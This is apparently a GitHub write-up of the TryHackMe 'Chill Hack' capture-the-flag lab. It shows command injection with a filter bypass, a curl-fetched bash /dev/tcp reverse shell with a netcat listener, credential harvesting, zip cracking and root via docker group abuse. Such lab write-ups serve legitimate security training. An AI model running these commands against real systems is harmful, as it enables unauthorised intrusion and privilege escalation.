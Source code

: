 ![Author](https://img.shields.io/badge/Author-Jull3Hax0r-blue?style=flat-square&logo=github)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-Chill%20Hack-success?style=flat-square&logo=tryhackme)](https://tryhackme.com/room/chillhack)
# TryHackMe-ChillHack
WriteUp for CTF "ChillHack" at TryHackMe
# 🛡️ Chill Hack – CTF Writeup

---

## 🛰️ Target
```
IP: <IP>
```

---

## 🔍 Initial Enumeration

Using `gobuster`, I discovered the `/secret/` endpoint:

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 50
```

The `/secret/` path contains a user input field that executes system commands.

---

## ⚙️ Command Injection → Reverse Shell

After experimenting with filtered injection, I hosted a reverse shell script and used `curl` to execute it from the target.

### `shell.sh`:
```bash
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"
```

### Listener & HTTP Server:
```bash
python3 -m http.server 8090
nc -lnvp 443
```

### Payload submitted:
```bash
curl http://<IP>:8090/shell.sh | ba\sh
```

✅ Reverse shell received as `www-data`.

---

## 🧑‍💻 Escalation to `apaar`

Discovered `/home/apaar`

```bash
sudo -l
```

Allowed command:

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

Prompted with:
```
Welcome to helpdesk. Feel free to talk to anyone at any time!
```

Input:
```bash
/bin/sh
/bin/sh
id
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

✅ Escalated to user `apaar`

```bash
cat local.txt
{USER-FLAG: •••••••••••••••••••••••••••••••••••••}
```

---

## 🧬 Web Portal – MySQL Credentials

Found in `/var/www/files/index.php`:

```php
$con = new PDO("mysql:dbname=webportal;host=localhost","root","•••••••••••••••");
```

### Logged into MySQL:
```bash
mysql -u root -p
# password: ••••••••••••••••
```

Extracted users table → cracked two hashes:

- `Aurick`: `••••••••••••`
- `cullapaar`: `••••••••••••••••••`

(No escalation via these accounts.)

---

## 🖼️ Hidden Data in Image File

Found `/var/www/files/hacker.php` with the message:
> **"Look in the dark! You will find your answer"**

Referenced image: `/imges/hacker-with-laptop_23-2147985341.jpg`

Extracted:
```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

Got `backup.zip` (password protected)

### Cracked ZIP:
```bash
zip2john backup.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
```

✅ Password: `••••••••`

Inside: `source_code.php`

---

## 🔐 Escalation to `anurodh`

Found Base64-encoded credentials in `source_code.php`, decoded to:

- User: `anurodh`
- Password: `••••••••••••••••••••••••••`

### Switched to `anurodh`

Checked groups:

```bash
id
# ... groups=1002(anurodh),999(docker)
```

---

## 🚀 Root via Docker Group

Used GTFOBins Docker technique:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

✅ Root shell acquired:

```bash
whoami
# root

cat /root/proof.txt
{ROOT-FLAG: •••••••••••••••••••••••••••••••••••••}
```

---

## ✅ Summary

| Stage             | Result                                  |
|------------------|------------------------------------------|
| Initial Foothold | `www-data` via command injection         |
| User Escalation  | `apaar` via `.helpline.sh`               |
| Info Disclosure  | MySQL creds, user password hashes        |
| Escalation       | `anurodh` via hidden ZIP + base64 creds |
| Final            | `root` via Docker group abuse            |

---

🎯 *Box rooted. See you in `/root`!*
